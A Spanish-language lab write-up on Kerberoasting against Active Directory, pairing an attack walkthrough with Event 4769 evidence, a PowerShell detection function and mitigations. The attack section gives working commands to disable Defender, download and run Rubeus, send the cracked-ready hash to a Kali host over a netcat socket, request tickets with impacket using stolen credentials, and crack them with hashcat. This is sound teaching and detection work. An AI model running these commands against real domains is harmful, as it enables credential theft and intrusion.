









# Kerberoasting

## ¿Qué es este ataque?

Kerberoasting es una técnica de ataque contra el protocolo Kerberos en Active Directory que permite a un atacante **ya autenticado en el dominio** obtener hashes de contraseñas de cuentas de servicio.

A diferencia de AS-REProasting, aquí el atacante necesita credenciales válidas (de cualquier usuario, no necesariamente privilegiado). El ataque aprovecha que cualquier usuario autenticado puede solicitar un ticket de servicio (TGS) para cualquier cuenta que tenga un **SPN (Service Principal Name)** registrado.

```
Atacante autenticado en el dominio (con cualquier cuenta)
    ↓
Solicita un TGS para una cuenta con SPN (ej. svc_sql)
    ↓
El DC entrega el ticket cifrado con la contraseña de svc_sql
    ↓
Atacante crackea el hash offline con hashcat
    ↓
Obtiene la contraseña de svc_sql en texto claro
```

---

## ¿Por qué existe esta vulnerabilidad?

Los SPNs no son un error de configuración como el AS-REProasting, son una pieza necesaria del funcionamiento de Kerberos. Su finalidad legítima es habilitar el **Single Sign-On (SSO)**:

```
Sin SPN:
  El usuario tiene que escribir usuario/contraseña 
  cada vez que se conecta a un servicio (SQL, IIS, etc.)

Con SPN:
  Windows usa las credenciales con las que el usuario 
  ya inició sesión en el dominio para autenticarse 
  automáticamente contra el servicio, sin pedir nada
```

El SPN le dice a Kerberos qué cuenta de Active Directory gestiona un servicio concreto. Es el mecanismo estándar y recomendado para ejecutar servicios como SQL Server, IIS o Exchange con cuentas de servicio dedicadas, siguiendo el principio de mínimo privilegio (en vez de ejecutarlos con la cuenta de Administrador del dominio).

El problema surge cuando esas cuentas de servicio tienen **contraseñas débiles o no rotadas**, porque el ticket que cualquier usuario recibe va cifrado con esa contraseña, y puede ser crackeado offline sin que el atacante necesite tocar el servicio en ningún momento.

---

## Entorno de laboratorio

| Máquina | Rol | IP |
|---------|-----|----|
| DC01 | Controlador de dominio (víctima) | 100.100.100.50 |
| WS01 | Cliente Windows (atacante interno, cuenta `lamine`) | 100.100.100.40 |
| Kali | Atacante externo (con credenciales robadas) | 100.100.100.20 |

---

## Preparación del entorno

Para que el ataque tenga sentido, el servicio SQL Server debe estar instalado y corriendo en el DC, de forma que el SPN apunte a algo real.

**1. Instalación de SQL Server 2019 Express en el DC:**



**2. Regla de firewall para permitir conexiones al puerto 1433:**



**3. Verificación de la conexión desde DC01 vía SQL Server Management Studio:**



La query sobre `sys.dm_exec_connections` confirma que el servidor acepta conexiones TCP en el puerto 1433 con autenticación NTLM, lo que valida que el servicio está activo antes de registrar el SPN.

---

## Configurar la vulnerabilidad

Registrar un SPN para la cuenta `svc_sql`, asociándola al servicio SQL Server instalado en el DC.

Vía **ADSI Edit**:

```
Inicio → Herramientas administrativas → ADSI Edit
→ Conectar → Contexto de nomenclatura predeterminado
→ CN=Users → CN=svc_sql → Propiedades
→ Atributo: servicePrincipalName → Editar
→ Agregar:
    MSSQLSvc/DC01.adlab.local:1433
    MSSQLSvc/DC01.adlab.local\SQLEXPRESS
```

Verificación por PowerShell:

```powershell
setspn -L svc_sql
```

Resultado:

```
Valores de ServicePrincipalName registrados para CN=svc_sql,CN=Users,DC=adlab,DC=local:
    MSSQLSvc/DC01.adlab.local\SQLEXPRESS
    MSSQLSvc/DC01.adlab.local:1433
```

En la imagen se puede ver el ADSI Edit con los dos SPNs registrados en el atributo `servicePrincipalName` de la cuenta `svc_sql`:



---

## Ataque desde WS01 (atacante interno con Rubeus)

Vamos a hacer el ataque desde Windows para ello tenemos que iniciar sesión en WS01 con una cuenta de dominio comprometida (en este caso `lamine`, **nunca** con la propia cuenta objetivo `svc_sql`, Rubeus no puede pedirle un ticket a la misma cuenta que lo ejecuta).

Descargar Rubeus y desactivar Defender:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

iwr https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -OutFile C:\Users\Public\Rubeus.exe
```

Ejecutar el ataque:

```powershell
C:\Users\Public\Rubeus.exe kerberoast /rc4opsec /outfile:C:\Users\Public\hashes_kerb.txt
```

> **Nota:** se usa `/rc4opsec` para forzar que el ticket se cifre con RC4 en lugar de AES. RC4 es mucho más rápido de crackear con hashcat, y además es la forma en que Rubeus simula tickets como los que pediría un cliente legacy, generando menos ruido.

Resultado:

```
[*] Action: Kerberoasting
[*] Total kerberoastable users : 1
[*] SamAccountName         : svc_sql
[*] ServicePrincipalName   : MSSQLSvc/DC01.adlab.local\SQLEXPRESS
[*] Hash written to : C:\Users\Public\hashes_kerb.txt
```



---

## Exfiltración del hash a Kali via Netcat

Pasamos el hash a Kali:

```bash
nc -lvp 4444 > hashes_kerb.txt
```

En WS01:

```powershell
$client = New-Object Net.Sockets.TcpClient("100.100.100.20", 4444)
$stream = $client.GetStream()
$bytes = [IO.File]::ReadAllBytes("C:\Users\Public\hashes_kerb.txt")
$stream.Write($bytes, 0, $bytes.Length)
$client.Close()
```

---

## Ataque desde Kali (con credenciales robadas)

En este caso simularemos un ataque mas real, haciendolo desde nuestra mauina kali. A diferencia de AS-REProasting, Kerberoasting **requiere credenciales válidas** del dominio. Aquí simulamos que el atacante ya comprometió la cuenta `lamine` por otro medio (phishing, contraseña débil, etc.):

```bash
impacket-GetUserSPNs adlab.local/lamine:Password123! -dc-ip 100.100.100.50 -request -outputfile hashes_kerb_kali.txt
```

Esto se autentica como `lamine`, enumera todas las cuentas con SPN registrado, y solicita directamente los tickets de servicio para cada una.



---

## Crackeo del hash con hashcat

El modo de hashcat es distinto al de AS-REProasting:

```bash
echo "Password123!" > custom.txt
hashcat -m 13100 hashes_kerb_kali.txt custom.txt --force
```

| Ataque | Modo hashcat |
|--------|-------------|
| AS-REProasting | `-m 18200` |
| Kerberoasting | `-m 13100` |

Resultado:

```
$krb5tgs$23$*svc_sql$ADLAB.LOCAL$MSSQLSvc/DC01.adlab.local...:Password123!

Status: Cracked
```





---

## Evidencia en los logs del DC

El ataque deja rastro en el **Visor de eventos** del DC:

```
Registro: Security
Event ID: 4769 — Se solicitó un vale de servicio de Kerberos
```

Datos relevantes del evento capturado:

```
Nombre de cuenta:      lamine@ADLAB.LOCAL
Nombre de servicio:    svc_sql
Dirección de cliente:  ::ffff:100.100.100.20   (IP de Kali)
Tipo de cifrado:       0x17 (RC4)
Código de error:       0x0 (éxito)
```

| Campo | Uso legítimo de SQL Server | Kerberoasting |
|-------|---------------------------|----------------|
| Tipo de cifrado | 0x12 (AES), normalmente | **0x17 (RC4)** |
| Frecuencia | Esporádica, ligada al uso real | Ráfaga de solicitudes en poco tiempo |
| Conexión posterior | El usuario sí usa el servicio | El usuario nunca se conecta realmente |

A diferencia de AS-REProasting, **un solo evento RC4 no es prueba suficiente** de ataque, ya que podría tratarse de un cliente legacy que solo soporta RC4. La señal real de Kerberoasting es el **volumen de solicitudes** de tickets de servicio en un periodo corto desde la misma cuenta.

En el log real del laboratorio se puede ver el Event ID 4769 filtrado: 201 eventos generados, con `lamine@ADLAB.LOCAL` solicitando el ticket de `svc_sql` con cifrado `0x17` (RC4) desde la IP de Kali (`::ffff:100.100.100.20`):



---

## Detección con PowerShell

```powershell
function Get-KerberoastingAttempts {
    param(
        [int]$HorasAtras = 24,
        [int]$UmbralSolicitudes = 3
    )

    $tiempo = (Get-Date).AddHours(-$HorasAtras)

    $eventos = Get-WinEvent -FilterHashtable @{
        LogName   = 'Security'
        Id        = 4769
        StartTime = $tiempo
    } -ErrorAction SilentlyContinue

    $solicitudesRC4 = @()

    foreach ($evento in $eventos) {
        $xml   = [xml]$evento.ToXml()
        $datos = $xml.Event.EventData.Data

        $cuenta   = ($datos | Where-Object { $_.Name -eq 'TargetUserName' }).'#text'
        $servicio = ($datos | Where-Object { $_.Name -eq 'ServiceName' }).'#text'
        $cifrado  = ($datos | Where-Object { $_.Name -eq 'TicketEncryptionType' }).'#text'
        $ipOrigen = ($datos | Where-Object { $_.Name -eq 'IpAddress' }).'#text'

        if ($cuenta -like '*$') { continue }

        if ($cifrado -eq '0x17' -and $servicio -ne 'krbtgt') {
            $solicitudesRC4 += [PSCustomObject]@{
                Fecha     = $evento.TimeCreated
                Cuenta    = $cuenta
                Servicio  = $servicio
                Cifrado   = $cifrado
                IPOrigen  = $ipOrigen
            }
        }
    }

    $alertas = @()
    $agrupado = $solicitudesRC4 | Group-Object -Property Cuenta

    foreach ($grupo in $agrupado) {
        if ($grupo.Count -ge $UmbralSolicitudes) {
            $alertas += [PSCustomObject]@{
                Fecha           = ($grupo.Group | Sort-Object Fecha -Descending | Select-Object -First 1).Fecha
                CuentaAtacante  = $grupo.Name
                NumSolicitudes  = $grupo.Count
                ServiciosUnicos = ($grupo.Group.Servicio | Select-Object -Unique) -join ', '
                IPOrigen        = ($grupo.Group.IPOrigen | Select-Object -Unique) -join ', '
                Severidad       = 'ALTA'
                Ataque          = 'Kerberoasting'
            }
        }
    }

    return $alertas
}
```

---

## Mitigación

1. **Usar Group Managed Service Accounts (gMSA)** en lugar de cuentas de servicio normales.  Windows genera y rota automáticamente una contraseña de 120 caracteres, haciendo el hash imposible de crackear:

```powershell
New-ADServiceAccount -Name svc_sql_gmsa -DNSHostName DC01.adlab.local -PrincipalsAllowedToRetrieveManagedPassword "WS01$"
```

2. **Si no es posible usar gMSA**, asignar contraseñas largas (25+ caracteres) y aleatorias a las cuentas de servicio, y rotarlas periódicamente.

3. **Forzar cifrado AES** en lugar de RC4 para las cuentas de servicio:

```powershell
Set-ADUser svc_sql -KerberosEncryptionType AES256
```

4. **Monitorizar el Event ID 4769** buscando volumen anómalo de solicitudes con cifrado RC4 desde una misma cuenta, como hace el script de detección.

5. **Auditar periódicamente** qué cuentas tienen SPN registrado:

```powershell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName
```

---

## Archivos

- [`detection.ps1`](detection.ps1) — Módulo de detección PowerShell
